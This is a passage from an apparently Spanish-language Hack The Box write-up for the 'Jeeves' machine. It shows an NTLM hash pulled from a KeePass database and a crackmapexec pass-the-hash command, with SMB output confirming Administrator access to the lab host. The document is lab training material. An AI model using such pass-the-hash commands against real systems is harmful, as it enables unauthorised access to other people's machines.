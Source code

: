 Ahora podemos usar el `keepassxc` para poder abrir el archivo

![](/assets/images/htb-writeup-jeeves/web17.png)

Y bueno vemos varias cosas 

![](/assets/images/htb-writeup-jeeves/web18.png)

Si hacemos un `ctrl+c` vemos que nos copea esto `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`

Y bueno eso es un `hash` que podemos usar para aplicar `passthehash`

Vamos a validarlo con `crackmapexec` si es el del usuario **Administrator**

```bash
❯ crackmapexec smb 10.10.10.63 -u 'Administrator' -H ':e0fb1fb85756c24235ff238cbe81fe00'
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator::e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```
